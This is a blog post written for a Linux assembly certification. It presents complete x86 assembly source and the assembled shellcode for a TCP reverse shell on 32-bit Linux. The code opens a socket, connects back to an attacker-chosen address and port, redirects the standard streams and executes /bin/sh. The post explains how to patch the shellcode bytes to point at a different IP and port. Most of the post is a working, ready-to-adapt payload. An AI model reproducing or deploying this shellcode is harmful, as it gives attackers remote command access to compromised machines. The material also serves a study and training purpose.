


In this post, I will show i86 assembly language code and the resultant shellcode used to spawn a TCP reverse shell on a 32-bit Linux system. I will also briefly explain the concepts found in the shellcode at a high level.
Reverse Shell Overview
A reverse shell is a tool used in hacking and penetration testing. It is a program that opens a command shell such as
sh or
bash on a compromised system then connects back to an attacker-specified system to allow the attacker remote use of the command shell. Contrast this with the bind shell discussed in the previous blog post, which binds to a specified port and awaits the attacker's connection. Whether to use a bind shell or a reverse shell can depend on tradecraft and the lay of the network. Shellcode for either could be essential.
At a slightly lower level, my reverse shell shellcode is not much different from my bind shellcode. It instantiates a socket by calling
socket(), and eventually it clones the resultant socket to the stdin, stdout, and stderror handles of the process. It then calls
execve() on the
/bin/sh binary to replace the current process image with /bin/sh, resulting in an
sh shell where all input comes from the socket and all output goes to the socket.
The only real difference is the forming of the connection. A bind shell calls
bind(),
listen(), and
accept() to create a server fit for one, and the attacker completes the connection by connecting to the server with a client. Since a reverse shell depends on the shell itself being the client, the
connect() system call is instead used to reach out to the attacker's machine and complete the connection.
However, once this is done, the rest of the shellcode is identical. Here is my assembly code. There are details about the inner workings in the comments:
; Filename: revshell.nasm
; Author: lastlistener
; Purpose: Demonstrate TCP reverse shell shellcode.
global _start
section .text
_start:
; eax = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)
push byte 0x66
pop eax ; eax = syscall number for SOCKETCALL
xor edx,edx ; edx = 0
push edx ; stack = [protocol 0]
inc edx ; edx = 1
mov ebx,edx ; ebx = socketcall #1 (socket)
push edx ; stack = [protocol 0, sock_stream 1]
inc edx ; edx = 2
push edx ; stack = [protocol 0, sock_stream 1, AF_INET 2]
mov ecx,esp ; ecx = pointer to params
int 0x80 ; socket()
mov edx,eax ; save socket in edx
; connect(socket, sockaddr*, sizeof(socket))
push dword 0x0100007f ; stack = [ip with byte significance reversed], this is 127.0.0.1
push dword 0xbb010002 ; stack = complete sockaddr struct: [ip, port, family AF_INET]
mov ecx, esp ; save address of sockaddr struct in ecx
push byte 0x66
pop eax ; eax = SOCKETCALL
push byte 0x10 ; length of sockaddr struct
push ecx ; address of sockaddr struct
push edx ; socket
mov ecx,esp ; ecx = pointer to args
push byte 0x3
pop ebx ; ebx = socketcall #3 (connect)
int 0x80 ; connect()
; dup2(socket, std_descriptor)
xor ecx,ecx
mov cl,0x2 ; loop on stderr/out/in, file descriptors 2, 1, 0
loop_fds:
push byte 0x3f
pop eax ; eax = syscall dup2 (0x3f)
mov ebx,edx ; oldfd = socket
int 0x80 ; dup2()
dec ecx ; change to next std file descriptor
jns loop_fds ; if the DEC does not produce a negative we have not cloned 2, 1 and 0
; execve(filename, argv, env)
push esi
push dword 0x68732f2f ; hs//
push dword 0x6e69622f ; nib/
mov ebx,esp ; filename = /bin/sh
mov al,11 ; syscall number
mov ecx,esi ; no argv needed
mov edx,esi ; no env needed
int 0x80Assembly, linking and use of the reverse shell is shown in this screenshot of two terminals:
This means the shellcode is as follows:
"\x6a\x66\x58\x31\xd2\x52\x42\x89\xd3\x52\x42\x52\x89\xe1\xcd\x80\x89\xc2\x68
\x7f\x00\x00\x01\x68\x02\x00
\x01\xbb\x89\xe1\x6a\x66\x58\x6a\x10\x51\x52\x89\xe1\x6a\x03\x5b\xcd\x80\x31\xc9\xb1\x02\x6a\x3f\x58\x89\xd3\xcd\x80\x49\x79\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x89\xf1\x89\xf2\xcd\x80"
To change the IP, replace the first four bolded bytes with the hex representation of its octets (for example, the default 7f000001 is 127.0.0.1). To change the port, change the next set of bolded bytes to the hex representation of that port (for example, the default 01bb is port 443).
---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
Student ID: SLAE - 1353